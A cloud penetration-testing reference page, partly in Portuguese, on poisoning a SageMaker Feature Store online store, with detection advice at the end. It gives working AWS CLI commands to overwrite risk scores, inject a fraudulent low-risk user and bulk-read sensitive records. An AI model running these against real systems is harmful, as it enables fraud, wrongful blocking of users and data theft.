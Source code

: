 # SageMaker Feature Store online store poisoning

Abuse `sagemaker:PutRecord` on a Feature Group with OnlineStore enabled para sobrescrever valores de feature ativos consumidos pela inferência online. Combinado com `sagemaker:GetRecord`, um atacante pode ler features sensíveis e exfiltrar dados confidenciais de ML. Isso não requer acesso a modelos ou endpoints, tornando-o um ataque direto na camada de dados.

## Requisitos
- Permissões: `sagemaker:ListFeatureGroups`, `sagemaker:DescribeFeatureGroup`, `sagemaker:PutRecord`, `sagemaker:GetRecord`
- Alvo: Feature Group com OnlineStore enabled (tipicamente backing real-time inference)
- Complexidade: **BAIXA** - Comandos simples do AWS CLI, nenhuma manipulação de modelo necessária

## Etapas

### Reconnaissance

1) List Feature Groups with OnlineStore enabled
```bash
REGION=${REGION:-us-east-1}
aws sagemaker list-feature-groups \
--region $REGION \
--query "FeatureGroupSummaries[?OnlineStoreConfig!=null].[FeatureGroupName,CreationTime]" \
--output table
```
2) Descrever um Feature Group alvo para entender seu esquema
```bash
FG=<feature-group-name>
aws sagemaker describe-feature-group \
--region $REGION \
--feature-group-name "$FG"
```
Observe o `RecordIdentifierFeatureName`, `EventTimeFeatureName` e todas as definições de feature. Estes são necessários para criar registros válidos.

### Cenário de Ataque 1: Data Poisoning (Overwrite Existing Records)

1) Leia o registro legítimo atual
```bash
aws sagemaker-featurestore-runtime get-record \
--region $REGION \
--feature-group-name "$FG" \
--record-identifier-value-as-string user-001
```
2) Envenene o registro com valores maliciosos usando o parâmetro inline `--record`
```bash
NOW=$(date -u +%Y-%m-%dT%H:%M:%SZ)

# Example: Change risk_score from 0.15 to 0.99 to block a legitimate user
aws sagemaker-featurestore-runtime put-record \
--region $REGION \
--feature-group-name "$FG" \
--record "[
{\"FeatureName\": \"entity_id\", \"ValueAsString\": \"user-001\"},
{\"FeatureName\": \"event_time\", \"ValueAsString\": \"$NOW\"},
{\"FeatureName\": \"risk_score\", \"ValueAsString\": \"0.99\"},
{\"FeatureName\": \"transaction_amount\", \"ValueAsString\": \"125.50\"},
{\"FeatureName\": \"account_status\", \"ValueAsString\": \"POISONED\"}
]" \
--target-stores OnlineStore
```
3) Verificar os dados envenenados
```bash
aws sagemaker-featurestore-runtime get-record \
--region $REGION \
--feature-group-name "$FG" \
--record-identifier-value-as-string user-001
```
**Impacto**: Modelos de ML que consumirem essa feature agora verão `risk_score=0.99` para um usuário legítimo, potencialmente bloqueando suas transações ou serviços.

### Attack Scenario 2: Malicious Data Injection (Create Fraudulent Records)

Injetar registros completamente novos com features manipuladas para burlar controles de segurança:
```bash
NOW=$(date -u +%Y-%m-%dT%H:%M:%SZ)

# Create fake user with artificially low risk to perform fraudulent transactions
aws sagemaker-featurestore-runtime put-record \
--region $REGION \
--feature-group-name "$FG" \
--record "[
{\"FeatureName\": \"entity_id\", \"ValueAsString\": \"user-999\"},
{\"FeatureName\": \"event_time\", \"ValueAsString\": \"$NOW\"},
{\"FeatureName\": \"risk_score\", \"ValueAsString\": \"0.01\"},
{\"FeatureName\": \"transaction_amount\", \"ValueAsString\": \"999999.99\"},
{\"FeatureName\": \"account_status\", \"ValueAsString\": \"approved\"}
]" \
--target-stores OnlineStore
```
Verifique a injeção:
```bash
aws sagemaker-featurestore-runtime get-record \
--region $REGION \
--feature-group-name "$FG" \
--record-identifier-value-as-string user-999
```
**Impacto**: Um atacante cria uma identidade falsa com pontuação de risco baixa (0.01) que pode realizar transações fraudulentas de alto valor sem acionar a detecção de fraude.

### Cenário de Ataque 3: Exfiltração de Dados Sensíveis

Ler múltiplos registros para extrair features confidenciais e mapear o comportamento do modelo:
```bash
# Exfiltrate data for known users
for USER_ID in user-001 user-002 user-003 user-999; do
echo "Exfiltrating data for ${USER_ID}:"
aws sagemaker-featurestore-runtime get-record \
--region $REGION \
--feature-group-name "$FG" \
--record-identifier-value-as-string ${USER_ID}
done
```
**Impacto**: features confidenciais (pontuações de risco, padrões de transações, dados pessoais) expostos a um atacante.

### Criação de Feature Group de Teste/Demonstração (Opcional)

Se precisar criar um Feature Group de teste:
```bash
REGION=${REGION:-us-east-1}
FG=$(aws sagemaker list-feature-groups --region $REGION --query "FeatureGroupSummaries[?OnlineStoreConfig!=null]|[0].FeatureGroupName" --output text)
if [ -z "$FG" -o "$FG" = "None" ]; then
ACC=$(aws sts get-caller-identity --query Account --output text)
FG=test-fg-$ACC-$(date +%s)
ROLE_ARN=$(aws iam get-role --role-name AmazonSageMaker-ExecutionRole --query Role.Arn --output text 2>/dev/null || echo arn:aws:iam::$ACC:role/service-role/AmazonSageMaker-ExecutionRole)

aws sagemaker create-feature-group \
--region $REGION \
--feature-group-name "$FG" \
--record-identifier-feature-name entity_id \
--event-time-feature-name event_time \
--feature-definitions "[
{\"FeatureName\":\"entity_id\",\"FeatureType\":\"String\"},
{\"FeatureName\":\"event_time\",\"FeatureType\":\"String\"},
{\"FeatureName\":\"risk_score\",\"FeatureType\":\"Fractional\"},
{\"FeatureName\":\"transaction_amount\",\"FeatureType\":\"Fractional\"},
{\"FeatureName\":\"account_status\",\"FeatureType\":\"String\"}
]" \
--online-store-config "{\"EnableOnlineStore\":true}" \
--role-arn "$ROLE_ARN"

echo "Waiting for feature group to be in Created state..."
for i in $(seq 1 40); do
ST=$(aws sagemaker describe-feature-group --region $REGION --feature-group-name "$FG" --query FeatureGroupStatus --output text || true)
echo "$ST"; [ "$ST" = "Created" ] && break; sleep 15
done
fi

echo "Feature Group ready: $FG"
```
## Detecção

Monitore o CloudTrail em busca de padrões suspeitos:
- eventos `PutRecord` de entidades IAM incomuns ou endereços IP
- Chamadas `PutRecord` ou `GetRecord` em alta frequência
- `PutRecord` com valores de feature anômalos (por exemplo, risk_score fora do intervalo normal)
- Operações em massa `GetRecord` indicando exfiltração em massa
- Acesso fora do horário comercial normal ou de locais inesperados

Implemente detecção de anomalias:
- Validação de valores de feature (por exemplo, risk_score deve ser 0.0-1.0)
- Análise de padrões de escrita (frequência, horários, identidade da origem)
- Detecção de drift de dados (mudanças súbitas nas distribuições de feature)

## Referências
- [AWS SageMaker Feature Store Documentation](https://docs.aws.amazon.com/sagemaker/latest/dg/feature-store.html)
- [Feature Store Security Best Practices](https://docs.aws.amazon.com/sagemaker/latest/dg/feature-store-security.html)
